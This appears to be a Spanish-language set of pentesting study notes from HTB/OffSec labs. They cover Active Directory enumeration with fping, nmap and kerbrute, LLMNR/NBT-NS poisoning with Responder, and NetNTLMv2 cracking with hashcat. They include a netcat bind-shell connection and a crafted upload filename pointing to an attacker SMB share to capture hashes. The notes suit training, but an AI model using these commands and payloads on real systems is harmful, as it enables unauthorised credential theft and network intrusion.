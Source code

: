 #enum

## Key data points

|**Elemento**|**Descripción**|
|---|---|
|`AD Users`|Enumerar usuarios para password spraying.|
|`AD Joined Computers`|Identificar DCs, servidores SQL, web, Exchange, etc.|
|`Key Services`|Kerberos, NetBIOS, LDAP, DNS.|
|`Vulnerable Hosts`|Buscar hosts rápidos de explotar.|

## Herramientas
- Identificación pasiva seguida de validación activa 
### `fping`: Búsqueda masiva de IP´s por ICMP
```bash
fping -asgq 172.16.5.0/23
```
- Después podemos utilizar nmap con los targets obtenidos
	```bash
	sudo nmap -v -A -iL hosts.txt -oN /home/htb-student/Documents/host-enum -oN allTargets
	```
### `kerbrute`: Enumerar usuarios
Interesante utilizar junto con listas como `jsmith.txt` o `jsmith2.txt` de [Insidetrust](https://github.com/insidetrust/statistically-likely-usernames)
```bash
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```
Si da algún problema con el output, se pueden conseguir los mismos resultados del siguiente modo: 
```bash
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
cat valid_ad_users | grep VALID | awk '{print $7}' > usernamesDomain.txt
```
## LLMNR/NBT-NS Possoning
[Link-Local Multicast Name Resolution](https://datatracker.ietf.org/doc/html/rfc4795) (LLMNR) and [NetBIOS Name Service](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc940063(v=technet.10)?redirectedfrom=MSDN) (NBT-NS) son métodos alternativos de resolución de nombres que pueden ser usados cuando falla el DNS. Cualquier host puede responder utilizando alguno de los protocolos mencionados. 
## Linux - `responder`
- Aunque hay muchas maneras en las que se puede capturar un hash, en `offsec` nos ponen un ejemplo muy simple en el que nos podemos conectar a través de una `bindshell` preparada por ellos
	```bash
	nc $target 4444
	# una vez conectados, intentamos acceder al contenido inexistente de una carpeta en dond está corriendo responder
	dir  \\$vpnip\test
	# y responder capturará el hash
	```
- Otra idea interesante es: en una web en la que podemos subir archivos, hacer que el nombre del archivo apunte a un recurso `smb` inexistente
	```bash
	Content-Disposition: form-data; name="myFile"; filename="\\\\192.168.45.244\test"
	```
### Configuración - `responder.conf`
Se pueden configurar los protocolos sobre los que actúar. Por defecto alojado en: 
```
/usr/share/responder
```
### Logs
Además de mostrar por pantalla los logs, responder guarda en un log la información recopilada: 
```
/usr/share/responder/logs
```
### Responder con configuración por defecto
```bash
sudo responder -I ens224
```
### Craquear NTMLv2 con hashcat
El hash que se captura en el paso anterior es un hash NTMLv2 ( [Hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)) 
```bash
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt
```

## Puertos comunes en una máquina Windows
Estos puertos suelen estar abiertos en **cualquier sistema Windows**:

| **Puerto**          | **Servicio**      | **Descripción**                            |
| ------------------- | ----------------- | ------------------------------------------ |
| **135**             | msrpc             | **RPC Endpoint Mapper** (COM/DCOM)         |
| **139**             | netbios-ssn       | **NetBIOS** (SMB v1)                       |
| **445**             | microsoft-ds      | **SMB** (archivos compartidos)             |
| **3389**            | ms-wbt-server     | **RDP** (Escritorio Remoto)                |
| **5985-5986,47001** | wsman             | **WinRM** (Administración remota por HTTP) |
| **49664+**          | **Dynamic Ports** | **Puertos efímeros de Windows**            |
